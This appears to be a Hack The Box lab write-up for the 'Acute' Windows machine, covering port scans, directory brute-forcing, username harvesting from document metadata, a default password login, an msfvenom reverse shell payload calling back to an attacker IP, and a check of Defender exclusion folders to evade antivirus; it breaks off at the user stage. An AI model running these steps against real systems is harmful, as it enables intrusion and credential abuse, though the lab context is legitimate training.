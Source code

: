 ```yaml
---
title: "[HTB] Machine: Acute"
description: "[HTB] Machine: Acute"
date: 2023-09-27
menu:
  sidebar:
    name: "[HTB] Machine: Acute"
    identifier: htb-machine-Acute
    parent: htb-machines-windows
    weight: 10
hero: images/acute.png
tags: ["HTB"]
---
```


# Acute
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.145 -T4 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-27 18:20 BST
Nmap scan report for 10.10.11.145 (10.10.11.145)
Host is up (0.12s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT    STATE SERVICE
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 33.16 seconds
```
```
└─$ nmap -Pn -p443 -sC -sV 10.10.11.145 -T4 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-27 18:21 BST
Nmap scan report for 10.10.11.145 (10.10.11.145)
Host is up (0.095s latency).

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2023-09-27T17:21:14+00:00; -41s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -41s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.34 seconds

```
- Web server

![]

- `feroxbuster`
```
└─$ feroxbuster -u https://atsserver.acute.local -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k --depth 2

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://atsserver.acute.local
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      818l     1728w    26105c https://atsserver.acute.local/Acute/core.css
200      GET        2l       15w     1426c https://atsserver.acute.local/Acute/wp-embed.js
301      GET        2l       10w      167c https://atsserver.acute.local/aspnet_client => https://atsserver.acute.local/aspnet_client/
200      GET        2l      378w    11224c https://atsserver.acute.local/Acute/jquery-migrate.js

```

- Possible usernames
  - And `doc` file with default password
  - And info about remote training on https://atsserver.acute.local/Acute_Staff_Access

![](./images/2.png)

![](./images/3.png)

```
└─$ exiftool New_Starter_CheckList_v7.docx                                 
ExifTool Version Number         : 12.64
File Name                       : New_Starter_CheckList_v7.docx
Directory                       : .
File Size                       : 35 kB
File Modification Date/Time     : 2023:09:27 18:34:18+01:00
File Access Date/Time           : 2023:09:27 18:34:25+01:00
File Inode Change Date/Time     : 2023:09:27 18:34:19+01:00
File Permissions                : -rw-r--r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x079b7eb2
Zip Compressed Size             : 428
Zip Uncompressed Size           : 2527
Zip File Name                   : [Content_Types].xml
Creator                         : FCastle
Description                     : Created on Acute-PC01
Last Modified By                : Daniel
Revision Number                 : 8
Last Printed                    : 2021:01:04 15:54:00Z
Create Date                     : 2021:12:08 14:21:00Z
Modify Date                     : 2021:12:22 00:39:00Z
Template                        : Normal.dotm
Total Edit Time                 : 2.6 hours
Pages                           : 3
Words                           : 886
Characters                      : 5055
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 42
Paragraphs                      : 11
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : University of Marvel
Links Up To Date                : No
Characters With Spaces          : 5930
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 16.0000
```

## Foothold
- User list based on `exiftool` hint
  - We also computer name `Acute-PC01`
```
AWallace
CHall
EDavies
IMonks
JMorgan
LHopkins
```

- The working creds are `EDavies:Password1!`

![](./images/4.png)

![](./images/5.png)

- Let's upgrade from webshell to reverse shell
  - Generate a payload using `msfvenom` and upload it to box
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LPORT=6666 LHOST=10.10.16.9 -f exe -o rev.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe

```

- But the shell doesn't work due to `Defender`

![](./images/6.png)

- We can check if there are any exclusion folders in `Defender` 

```
PS C:\Users\edavies\Documents> reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths

    C:\Utils    REG_DWORD    0x0
    C:\Windows\System32    REG_DWORD    0x0
```

- Run the payload

![](./images/7.png)

- Suddenly, the shell closes
  - So I tried with the `nc` 
  - But it closes too

![](./images/9.png)

![](./images/8.png)

- I would probably have to try `meterpreter` and migrate to another process


## User
